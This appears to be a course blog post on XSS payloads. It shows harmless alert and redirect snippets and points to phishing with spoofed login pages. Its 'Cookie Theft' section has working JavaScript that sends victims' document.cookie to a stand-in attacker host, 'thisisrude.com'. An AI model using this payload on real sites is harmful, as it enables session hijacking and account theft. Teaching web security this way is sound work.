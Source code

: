 ```yaml
---
layout: post
title: JavaScript Payloads
subtitle: Week 18
tags: [XSS, exploit]
---
```


You've discovered a XSS vulnerability on a page. What next?

*Submit a confidential report.*

Below are a few simple snippets of JavaScript snippets that can be used for evil.

Of course, you need to be familiar with Javascript first...

- <https://www.w3schools.com/js/tryit.asp?filename=tryjs_intro_inner_html>
- <https://developer.mozilla.org/en-US/docs/Web/JavaScript/A_re-introduction_to_JavaScript>

<https://jsfiddle.net/> is a convenient way to execute JavaScript in your web browser.

*****

# Client Payloads

{% highlight javascript linenos %}

// this is a comment. 

/*
 * BTW, there's no difference between useing single quotes (')
 * or double quote (") for strings in Javascript.
 *
 * Semicolons are optional.
 */
// usage: setTimeout(function, milliseconds);
setTimeout(function() {
  alert("Have a wonderful day! ^_^");
}, 5000);

// usage: setInterval(function, milliseconds);
setInterval(function() {
  alert("Don't forget to be awesome.");
}, 5000);

document.getElementsByTagName('h1')[0].innerHTML = 'Just wanted to say hello :)';

window.replace('http://www.staggeringbeauty.com/');

{% endhighlight %}

Some exploits require more setup. For example, you can inject `window.replace` to have users be sent to a spoofed login page. <https://tools.kali.org/information-gathering/set>

# Cookie Theft

Force unknowing users to connect with your unfriendly server. For the code below, we will assume your server is accessible by the domain "thisisrude.com".


{% highlight javascript linenos %}

let yourCookie = encode(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://thisisrude.com/picture.jpg?cookie=${yourCookie}`;
document.getElementById('image').src = url;

// AJAX - Unnoticed by the typical user.

// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
url = `http://thisisrude.com/gimmie?cookie=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

# TODO: CSRF and cookie stealing server
